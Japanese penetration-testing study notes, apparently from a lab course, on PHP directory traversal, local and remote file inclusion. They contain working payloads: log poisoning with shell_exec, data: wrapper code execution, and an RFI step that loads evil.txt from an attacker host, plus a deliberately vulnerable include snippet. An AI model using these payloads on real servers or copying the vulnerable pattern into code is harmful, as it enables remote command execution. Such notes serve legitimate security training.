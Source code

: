 ## ## 基本情報
トラバーサルの脆弱性がある場合File Inclusionの脆弱性もある可能性が高い

## ## Travarsal
- URLのクエリ文字とフォーム本文を調べるところから始める。
	↑さらにファイル参照を含む箇所を探す。
- 探索する際に一般的に使用されるファイル

### ### LFI
### ### 以下のPHPコードがあった場合にLFIの脆弱性がある。

```php
<?php
$file = $_GET["file"];
include $file; 
?>
```

### ### 悪意のあるファイルを含める方法
1. ファイルをアップロードし、LFIで遷移できるか。
2. ログファイルなどにPHPコードなどの書き込みができるか。

### ### Poisning
- PHPの場合
- 以下のPHPをコードをサーバ側に送り込み、Payloadの箇所の様にブラウザからリクエストを送る。
▼サーバに送る。(access.logに書き込みを行われる。)

```php
' . shell_exec($_GET['cmd']) . '';?>
```

▼Payload
```sh
http://10.11.0.22/menu.php?file=c:\xampp\apache\logs\access.log&cmd=ipconfig
```

### ### PHPラッパー
トラバーサルやLFIの脆弱性をつくために使用できる。
LFIの脆弱性を突く攻撃の際にPHPコードにインジェクションをしようとする、その際に柔軟性を与えてくれる可能性がある。

#### #### ラッパーごとの説明
- data wappers
	URLの一部としてインラインデータを埋め込むことが出来る。
	以下の様な感じでできる。
```sh
http://10.11.0.22/menu.php?file=data:text/plain,hello world
```

![file://C:/Users/alien/AppData/Local/Temp/.B6HJ62/1.png](file://C:/Users/alien/AppData/Local/Temp/.B6HJ62/1.png)
- 悪用コード
```sh
http://10.11.0.22/menu.php?file=data:text/plain,<?php echo shell_exec("dir") ?>
```

![file://C:/Users/alien/AppData/Local/Temp/.B6HJ62/2.png](file://C:/Users/alien/AppData/Local/Temp/.B6HJ62/2.png)

---
## ## RFI
### ### エンドポイント
- すでにLFIが見つかってみる場所
- 以下の様なURLになっている。
	http://10.11.0.22/menu.php?file=http://10.11.0.4/evil.txt
### ### 攻撃手順
  1. Kaliに以下のテキストファイルを保持させる。
```sh
kali@kali:/var/www/html$ cat evil.txt
<?php echo shell_exec($_GET['cmd']); ?>
```

  2. Kaliのブラウザで以下を実行
```
http://10.11.0.22/menu.php?file=http://10.11.0.4/evil.txt&cmd=ipconfig
```
